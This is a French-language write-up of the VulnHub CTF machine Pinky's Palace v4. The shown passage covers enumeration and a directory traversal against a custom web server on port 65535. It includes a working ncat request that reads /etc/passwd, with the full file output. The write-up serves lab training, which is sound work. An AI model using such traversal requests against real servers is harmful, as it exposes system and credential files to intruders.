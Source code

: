 ```yaml
---
title: "Solution du CTF Pinky's Palace v4 de VulnHub"
tags: [CTF, VulnHub, binary exploitation]
---
```


[Pinky's Palace: v4](https://vulnhub.com/entry/pinkys-palace-v4,265/) s'annonçait comme difficile en bon successeur des précédents opus. Une fois de plus on va vite rentrer dans de l'exploitation de binaire après quelques intuitions lors de l'énumération.

Pour l'escalade de privilèges il me manquait quelques connaissances pour comprendre ce qui était attendu et j'ai préféré donner ma langue au chat.

## Finalement c'était le colonel Moutarde le coupable !

Le port 80 nous fournit l'output d'un `phpinfo()`. Il n'y a pas grande information à en tirer si ce n'est que la machine est en 32bits.

J'ai énuméré en long et en large sans rien trouver d'autres sur ce serveur.

Je suis donc passé à l'autre serveur web sur le port 65535. Ce dernier supportant mal les énumérations, même à petite dose, je me suis dit qu'il fallait mieux y jeter un œil manuellement.

Déjà le fait que le serveur réponde en `HTTP/1.0` (quand l'entête `Host` n'existait pas) est un signe probable que l'on a affaire à un code fait maison.

La vulnérabilité classique sur un serveur web exotique, c'est le directory traversal et ce dernier n'échappe pas à la règle :

```console
$ echo -e "GET /../../../../../../../../../../etc/passwd HTTP/1.0\r\n\r\n" | ncat 192.168.56.187 65535 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.187:65535.
HTTP/1.0 200 OK
Server: pinkys-HTTP-server

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
pinky:x:1337:1337::/home/pinky:/bin/bash
phs:x:1338:1338::/srv/phs:/usr/sbin/nologin
Ncat: 59 bytes sent, 1464 bytes received in 0.08 seconds.
```
